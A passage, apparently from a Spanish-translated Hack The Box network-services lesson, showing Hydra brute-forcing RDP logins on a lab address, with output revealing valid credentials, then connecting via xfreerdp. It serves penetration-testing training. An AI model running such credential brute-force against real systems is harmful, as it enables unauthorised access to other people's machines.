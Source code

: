 ### **Hydra - RDP**

También podemos usar`Hydra`Para realizar el Forceing Brute de RDP.

Servicios de red

```
xnoxos@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found

```

Linux ofrece diferentes clientes para comunicarse con el servidor deseado utilizando el protocolo RDP. Estos incluyen[Remmina](https://remmina.org/), [rdesktop](http://www.rdesktop.org/), [xfreerdp](https://linux.die.net/man/1/xfreerdp), y muchos otros. Para nuestros propósitos, trabajaremos con xfreerdp.

### **xfreerdp**

Servicios de red

```
xnoxos@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>

```

Servicios de red

```
xnoxos@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y

```
